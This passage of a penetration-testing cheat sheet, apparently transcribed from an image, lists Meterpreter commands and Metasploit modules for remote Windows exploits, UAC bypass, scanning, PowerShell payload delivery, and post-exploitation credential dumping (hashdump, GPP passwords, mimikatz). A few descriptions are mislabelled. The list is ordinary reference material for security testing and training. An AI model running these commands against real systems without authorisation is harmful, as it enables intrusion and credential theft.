 hashdump						Meterpreter attempts to dump the hashes on the target
portfwd add –l 3389 –p 3389 –r target			Meterpreter create port forward to target machine
portfwd delete –l 3389 –p 3389 –r target		Meterpreter delete port forward



# Common Metasploit Modules
===========================
# Remote Windows Metasploit Modules (exploits)
COMMAND								DESCRIPTION
use exploit/windows/smb/ms08_067_netapi				MS08_067 Windows 2k, XP, 2003 Remote Exploit
use exploit/windows/dcerpc/ms06_040_netapi			MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index	MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit

# Local Windows Metasploit Modules (exploits)
COMMAND								DESCRIPTION
use exploit/windows/local/bypassuac				Bypass UAC on Windows 7 + Set target + arch, x86/64

# Auxilary Metasploit Modules
COMMAND								DESCRIPTION
use auxiliary/scanner/http/dir_scanner				Metasploit HTTP directory scanner
use auxiliary/scanner/http/jboss_vulnscan			Metasploit JBOSS vulnerability scanner
use auxiliary/scanner/mssql/mssql_login				Metasploit MSSQL Credential Scanner
use auxiliary/scanner/mysql/mysql_version			Metasploit MSSQL Version Scanner
use auxiliary/scanner/oracle/oracle_login			Metasploit Oracle Login Module

# Metasploit Powershell Modules
COMMAND								DESCRIPTION
use exploit/multi/script/web_delivery				Metasploit powershell payload delivery module
post/windows/manage/powershell/exec_powershell			Metasploit upload and run powershell script through a session
use exploit/multi/http/jboss_maindeployer			Metasploit JBOSS deploy
use exploit/windows/mssql/mssql_payload				Metasploit MSSQL payload

# Post Exploit Windows Metasploit Modules
# Windows Metasploit Modules for privilege escalation.
COMMAND								DESCRIPTION
run post/windows/gather/win_privs				Metasploit show privileges of current user
use post/windows/gather/credentials/gpp				Metasploit grab GPP saved passwords
load mimikatz -> wdigest					Metasplit load Mimikatz
run post/windows/gather/local_admin_search_enum			Idenitfy other machines that the supplied domain user has administrative access to
run post/windows/gather/smart_hashdump				Automated dumping of sam file, tries to esc privileges etc
